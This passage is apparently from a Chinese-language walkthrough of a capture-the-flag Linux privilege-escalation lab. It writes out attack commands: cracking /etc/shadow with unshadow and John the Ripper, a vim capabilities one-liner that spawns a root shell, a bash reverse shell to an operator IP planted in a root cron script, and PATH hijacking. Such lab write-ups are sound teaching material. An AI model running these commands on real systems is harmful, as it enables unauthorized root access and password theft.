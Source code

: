   ![image-20220826151949525](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826151949525.png)
   利用`unshadow PASSWORD-FILE SHADOW-FILE > PASSWORD`集成为一个文件
   使用`john the ripper`破解`john --wordlist=/usr/share/wordlists/rockyou.txt PASSWORD`密码为Password1
3. What is the content of the flag3.txt file?
   使用`base64 /home/ubuntu/flag3.txt | base64 --decode`可以看到flag值
   ![image-20220826152719366](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826152719366.png)

### Privilege Escalation: Capabilities

1. How many binaries have set capabilities?	
   输入`getcap -r / 2>/dev/null`
   ![image-20220826165711645](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826165711645.png)
2. What other binary can be used through its capabilities?
   view
3. What is the content of the flag4.txt file?
   输入`./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'`就可以打开一个终端
   `cat /home/ubuntu/flag4.txt`获取flag值

### Privilege Escalation: Cron Jobs

1. How many user-defined cron jobs can you see on the target system?
   在`/etc/crontab`中有四个计划任务
   ![image-20220826202201164](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826202201164.png)

2. What is the content of the flag5.txt file?
   需要利用crontab反弹一个root的shell，在目标主机的nc命令没有-e参数，所以尝试用bash/sh反弹shell
   此目标机存在`bash`命令，所以直接修改`back.sh`

   修改back.sh添加`bash -i >& /dev/tcp/操作机ip/监听端口 0>&1`（记得给back.sh添加执行权限
   ![image-20220826203339650](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826203339650.png)
   稍等片刻即可反弹到root的shell
   ![image-20220826204141952](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826204141952.png)
   flag5.txt在`/home/ubuntu/`目录下，直接查看即可

3. What is Matt's password?
   依旧利用unshadow和john命令去破解/etc/passwd和/etc/shadow两个文件内容
   ![image-20220826204747801](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826204747801.png)

### Privilege Escalation: PATH

1. What is the odd folder you have write access for?
   输入命令`find / -writeable 2>/dev/null`查看可写目录，根据Hint可知是home目录下
   ![image-20220826222500794](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826222500794.png)
2. Exploit the $PATH vulnerability to read the content of the flag6.txt file.
   flag文件在`/home/matt`目录下
   - 直接使用命令读取flag
     在`/home/murdoch`目录下，有两个文件
     ![image-20220826225204574](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826225204574.png)
     thm.py的文件内容为
     ![image-20220826225254061](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826225254061.png)
     尝试执行tset文件时提示
     ![image-20220826225421909](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826225421909.png)
     所以我们需要自建一个thm文件
     添加当前目录或tmp目录到PATH均可，输入命令`echo "cat /home/matt/flag6.txt" > thm`
     ![image-20220826225658005](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826225658005.png)
   - 反弹root的shell
     将thm文件的内容改成`/bin/bash`